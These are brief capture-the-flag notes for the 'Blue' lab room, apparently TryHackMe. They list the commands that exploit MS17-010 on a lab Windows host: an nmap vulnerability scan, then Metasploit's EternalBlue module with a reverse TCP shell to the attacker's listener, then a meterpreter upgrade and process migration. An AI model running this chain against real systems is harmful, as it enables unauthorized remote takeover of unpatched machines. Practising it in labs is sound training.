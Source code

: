 ### Blue ###

nmap 10.10.203.101 -Pn -sVC --script vuln
* Vulnerability: smb-vuln-ms17-010

ls /usr/share/nmap/scripts | grep "ms17-010"

msfconsole

search exploit ms17-010

use exploit/windows/smb/ms17_010_eternalblue

set rhosts 10.10.203.101

set lhost 10.9.189.41

set payload windows/x64/shell/reverse_tcp

run

CTRL + Z


search shell_to_meterpreter

use post/multi/manage/shell_to_meterpreter

set LhosT 10.9.189.41

set session 1

run


** Post-module execution completed

sessions 1

whoami

shell

ps

migrate PROCESS_ID


